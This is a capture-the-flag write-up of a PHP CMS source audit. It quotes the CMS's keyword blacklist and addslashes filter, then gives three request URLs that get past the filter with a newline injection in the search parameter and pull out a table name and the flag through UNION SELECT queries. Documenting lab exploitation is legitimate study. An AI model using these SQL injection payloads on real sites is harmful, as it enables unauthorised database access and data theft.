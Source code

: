 This chanllage is a typical CMS source code audit.

Accordind to source code, flag is in ``{table_prefix}flag.{blind_column}4``, but ``{table_prefix}`` and ``{blind_column}`` is unknown.

This cms don't use pre-compiled technology, but use addslash and blacklist as below.

```php
<?php 
    if(!defined('simple_cms')) exit();

    $method = $_SERVER['REQUEST_METHOD'];

    if($method !== 'GET' && $method !== 'POST'){
            exit('are you hacker?');
    }

    $filter_str = array('or', 'and', 'information', 'schema', 'procedure', 'analyse', 'order', 'by', 'group', 'into');

    function escape_str($array)
    {
        if(is_array($array)) {
            foreach($array as $key => $value) {
                if(is_array($value)) {
                    $array[$key] = escape_str($value);
                } else {
                    $array[$key] = filter($value);
                }
            }
        } 
        else {
            $array = filter($array);
        }
        return $array;
    }
    function filter($str){
        global $filter_str;

        foreach ($filter_str as $value) {
            if(stripos($str, $value) !== false){
                die('are you hacker?');
            }
        }
        return addslashes($str);
    }

    $_GET = escape_str($_GET);
    $_POST = escape_str($_POST);
    $_COOKIE = escape_str($_COOKIE);
    $_REQUEST = escape_str($_REQUEST);  
?>
```

After looking at source code, I found the following code is weird, seems we can inject via ``search``.

```php
function action_search(){
    $column = Context::get('col');
    $search = Context::get('search');
    $type = strtolower(Context::get('type'));
    $operator = 'or';
    
    if($type === '1'){
        $operator = 'or';
    }
    else if($type === '2'){
        $operator = 'and';
    }
    if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
        $column = 'title';
    }
    $query = get_search_query($column, $search, $operator);
    $result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
    include(CMS_SKIN_PATH . 'board.php');
}
```

In this code, ``\n`` will trigger a syntax error.

```
http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%23
```

Then we try to use ``mysql`` db to get ``{table_prefix}``.

```
http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%3C0%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%23
```

At last, we can use ``join`` to get flag.

```
http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0A)%3C0%20union%20(select%201,t.*%20from%20mysql.user%20join%2041786c497656426a6149_flag%20t)%23
```